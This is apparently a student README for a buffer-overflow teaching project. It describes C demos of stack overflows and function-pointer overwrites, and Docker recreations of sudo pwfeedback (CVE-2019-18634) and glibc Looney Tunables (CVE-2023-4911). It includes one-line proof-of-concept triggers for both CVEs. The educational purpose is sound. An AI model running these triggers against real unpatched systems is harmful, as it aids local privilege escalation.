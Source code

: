 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-22041afd0340ce965d47ae6ef1cefeee28c7c493a6346c4f15d667ab976d596c.svg)](https://classroom.github.com/a/am3xLbu5)

# PROJECT NAME HERE (CHANGE THIS!!!!!)

### Buff Guys

Elias Xu, Jakob Weir, Julien Diamond

### Project Description:

This project aims to give a brief description of the cybersecurity concept of buffer overflows and show some demos, along with real life exploits.

Since C is the programming language that is easiest to show / understand memory overwrites and buffer overflows, we'd be using that for the project. However, we'd be using tryhackme attackboxes and dockerfiles to replicate the exact environment that is needed to run the exploit.

### Instructions:

There are multiple different different programs that are in this.

`working_demo.c`

`working_demo.c` is a proof of concept (POC) of the concept of buffer overflows. It's a simply strcopy that doesn't check for size, which can overflow the buffer.

To run, use these following commands:

```sh
# run whatever you want, you can overflow the buffer if you enter more than ~5 characters
make working_demo ARGS=aaaaaaaa
```

`changing_variable.c`

`changing_variable.c` demonstrates how buffer overflow can change / overwrite a variable name. When one overflows the buffer, the following variable's value will be overwritten, which is detected by the program and printed to output. 

To run, use these following commands:

```sh
# this will hopefully overwrite the buffer, changing the variable
make variable_change
> msksmadsmfnadsf
```

`function_pointing.c`

`function_pointing.c` demonstrates the use of gdb and how one can overwrite functions to perform actions that are not intended by the writers of the program (in this case, of course, it's fully intended, but let's ignore that). By default, the normal function will run, but through overwriting of variables the special or the other function can be run.

There are two functions that can be substituted into the program, one which uses simple piping while the other one uses more complex payloads. 

To run, use/execute these following commands:

```sh
make function_pointing
gdb functions
# inside gdb find the function pointers either for the special function or the other function
# then you could either do a run <<< python -c "print('A' * 13 [enough to overflow] + pointer code)"
# or first write that into a payload and then insert it into the run function
```

`demo2-4.c`

@julien

`pwfeedback`

`pwfeedback` recreates the CVE-2019-18634 vulnerability, where when enabling the pwfeedback option for sudo (which makes * when you enter your password can lead to buffer overflows). The container cannot spawn a root shell, but the POC of the vulnerability does exist. 

To run the docker container and see the POC:

```sh
make deploy_pwfeedback
# inside the container run the show the seg fault
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | ./sudo -S id
```

`loony`

`loony` recreates the CVE-2023-4911 vulnerability, also called Looney Tunables, which exploits a coding issue in glibc to cause some shenanagins. Just as in pwfeedback, the exploit code to get the root shell doesn't work here, but it does allow you to run the POC. However, tryhackme has a working attackbox that allows you to run the exploit, which we'll demonstrate. 

to run the docker container and see the POC:

```sh
make deploy_loony
# inside the container run the show the seg fault
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```

### Resources/ References:

- https://en.wikipedia.org/wiki/NOP_slide
- https://nvd.nist.gov/vuln/detail/cve-2019-18634
- https://y3a.github.io/2021/03/03/sudo-cve-analysis/
- https://tryhackme.com/room/looneytunes
- https://blog.qualys.com/vulnerabilities-threat-research/2023/10/03/cve-2023-4911-looney-tunables-local-privilege-escalation-in-the-glibcs-ld-so 
- https://www.picussecurity.com/resource/blog/cve-2023-4911-looney-tunables-local-privilege-escalation-vulnerability 
- https://tryhackme.com/room/bof1 
- https://l1ge.github.io/tryhackme_bof1/ 
- https://medium.com/@cyberlarry/walkthrough-tryhackme-buffer-overflows-task-7-overwriting-function-pointers-ac1336979261
- https://iamalsaher.tech/posts/2020-02-08-cve-2019-18634/ 
- https://stackoverflow.com/questions/4700998/explain-stack-overflow-and-heap-overflow-in-programming-with-example
- https://computerarcheology.com/Virus/MorrisWorm/?utm_source=chatgpt.com
